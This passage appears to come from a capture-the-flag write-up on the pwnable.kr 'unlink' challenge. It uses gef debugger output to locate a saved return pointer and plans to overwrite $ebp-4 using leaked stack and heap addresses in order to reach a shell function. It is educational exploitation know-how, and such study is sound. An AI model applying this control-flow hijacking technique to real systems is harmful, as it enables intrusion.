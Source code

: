 So we are interested at `$ebp-4` and then `$ecx-4` since it is the address put in `$esp` which is popped at the `ret` called and then jumped to.

```bash
gef➤  x/xw $ebp-4
0xffb69b64:	0xffb69b80
gef➤  x/xw 0xffb69b80-4
0xffb69b7c:	0xf7c21519
```

And if we continute to `ret` we can see that `0xf7c21519` is actually our return address from main.
So our main goal is to overwrite `$ebp-4` so it holds a pointer to the address of `shell`.


How should we do it?
Each new run the stack and heap addresses change, luckily, the program leaks it for us, so we can still inspect the heap and stack on runtime.
```bash
gef➤  b *0x080485f2
Breakpoint 1 at 0x80485f2
gef➤  r
Starting program: /home/tom/repos/ctfs/pwnable.kr/unlink/unlink 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
here is stack address leak: 0xff9b69a4
here is heap address leak: 0x8fb35b0
now that you have leaks, get shell!
A

Breakpoint 1, 0x080485f2 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x08fb35b8  →  0x00000041 ("A"?)
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0xf7e2b9c0  →  0x00000000
$edx   : 0x1       
$esp   : 0xff9b6990  →  0x08fb35d0  →  0x08fb35f0  →  0x00000000
$ebp   : 0xff9b69b8  →  0xf7fd7020  →  0xf7fd7a40  →  0x00000000
$esi   : 0xff9b6a84  →  0xff9b726b  →  "/home/tom/repos/ctfs/pwnable.kr/unlink/unlink"
$edi   : 0xf7fd6b80  →  0x00000000
$eip   : 0x080485f2  →  <main+195> call 0x8048504 <unlink>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff9b6990│+0x0000: 0x08fb35d0  →  0x08fb35f0  →  0x00000000	 ← $esp
0xff9b6994│+0x0004: 0x08fb35b0  →  0x08fb35d0  →  0x08fb35f0  →  0x00000000
0xff9b6998│+0x0008: 0xf7c184be  →  "_dl_audit_preinit"
0xff9b699c│+0x000c: 0xf7f984a0  →  0xf7c00000  →  0x464c457f
0xff9b69a0│+0x0010: 0xff9b69e0  →  0xf7e2a000  →  0x00229dac
0xff9b69a4│+0x0014: 0x08fb35b0  →  0x08fb35d0  →  0x08fb35f0  →  0x00000000
0xff9b69a8│+0x0018: 0x08fb35f0  →  0x00000000
0xff9b69ac│+0x001c: 0x08fb35d0  →  0x08fb35f0  →  0x00000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80485e9 <main+186>       add    $0x10, %esp
    0x80485ec <main+189>       sub    $0xc, %esp
    0x80485ef <main+192>       push   -0xc(%ebp)
 →  0x80485f2 <main+195>       call   0x8048504 <unlink>
   ↳   0x8048504 <unlink+0>       push   %ebp
```